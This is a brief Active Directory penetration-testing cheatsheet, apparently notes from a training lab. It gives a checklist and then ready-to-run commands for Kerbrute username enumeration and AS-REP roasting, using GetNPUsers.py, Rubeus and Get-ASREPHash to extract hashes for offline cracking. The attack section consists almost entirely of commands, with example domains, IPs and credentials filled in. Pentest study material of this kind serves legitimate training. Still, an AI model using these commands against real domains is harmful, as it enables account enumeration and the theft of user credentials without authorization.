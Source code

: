 <hr>
<b>Enumeration checklist</b>
<hr>
<ul>
<li>Password Policy readable           []</li>
<li>Kebrute-able                       []</li>

Account Takeover Checklist

<li>Vulnerable to ASREP-Roasting       []</li>
</ul>

<hr>
<b>Cheatsheet</b>
<hr>

<b>Enumeration</b>

<b>Kebrute-ing users</b>

Kerbrute uses pre-authentication to check if a given list of users is valid on the system.

<ol>
  <li>./kerbrute_linux_amd64 userenum -d INLANEFREIGHT.LOCAL --dc 172.16.5.5 jsmith.txt -o kerb-results</li>
</ol>

  
Account takeover techniques


<b>ASREP-Roasting:</b>

Exploit technqiues:
<ol>
<li>python GetNPUsers.py CHANGEME.LOCAL/ -usersfile usernames.txt -format hashcat -outputfile hashes.asreproast</li>
<li>python GetNPUsers.py jurassic.park/triceratops:Sh4rpH0rns -request -format hashcat -outputfile hashes.asreproast</li>
<li>.\Rubeus.exe asreproast /format:hashcat /outfile:hashes.asreproast [/user:username]</li>
<li>Get-ASREPHash -Username VPN114user -verbose #From ASREPRoast.ps1 (https://github.com/HarmJ0y/ASREPRoast)</li>
</ol>

